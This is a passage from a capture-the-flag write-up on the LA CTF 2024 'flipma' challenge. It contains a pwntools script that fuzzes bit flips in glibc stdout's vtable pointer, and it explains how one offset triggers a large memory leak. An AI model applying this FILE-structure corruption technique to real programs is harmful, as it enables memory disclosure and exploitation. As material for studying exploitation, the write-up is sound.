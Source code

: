 <img class="img-responsive" src="{{ site-url }}/assets/lactf2024/flipma/xsputn.png" alt="xsputn">

So what offset should we add to this vtable pointer? In challenges of this kind we typically have more control over, for example, its arguments, and that lets us narrow our search, but here we have an extremely broad ‘search space’. I decided to fuzz the vtable pointer to try and see if I could get anything interesting to happen:

```python
def flip(io: tube, off: int, i: int):
	io.send(str(off).encode().ljust(16, b'\0'))
	io.send(str(i).encode().ljust(16, b'\0'))

def convert(io: tube, off: int, original: int, target: int, max_popcount=4):
	diff = original ^ target
	popcount = bin(diff).count('1')
	assert popcount <= max_popcount

	for i in range(8):
		if diff & (1 << i):
			flip(io, off, i)

def fuzz():
	for i in range(0xff):
		io = conn()

		stdout_off = libc.sym._IO_2_1_stdout_ - libc.sym._IO_2_1_stdin_
		stdout_vtable_ptr_off = stdout_off + 216 # &stdout->vtable_ptr - &stdin
		vtable = libc.sym._IO_file_jumps
		target = vtable + i*8

		try:
			convert(io, stdout_vtable_ptr_off, vtable, target)
		except Exception as err:
			io.close()
			continue

		flip(io, 0, 10) # trigger puts()

		log.info(f"i: {i}")
		io.interactive()
		io.close()
		log.info(f"i: {i}")
```

And I found that by adding 30 (x8) to the vtable pointer it just printed a **TON** of memory! Upon further inspection it seems that this makes `puts()` call `_IO_default_uflow`, which in turn calls `_IO_file_finish`, which *I believe* is a function used to close files, and therefore also flushes the stream, printing everything left in its buffer, but due to some argument confusion it ends up using a pointer as the size passed to `write()`, and therefore dumps pretty much all the memory directly after the stream’s buffer.

Recall that setting a stream to be unbuffered sets its buffer pointers to itself: this means that we’ve just leaked everything after stdout in memory! Sadly, this doesn’t work remotely, because read/write syscalls have an OS-dependent size limit, making it work on my computer running Fedora for some reason (I think it doesn’t even have a limit) but not on the remote server, which is probably running Ubuntu.
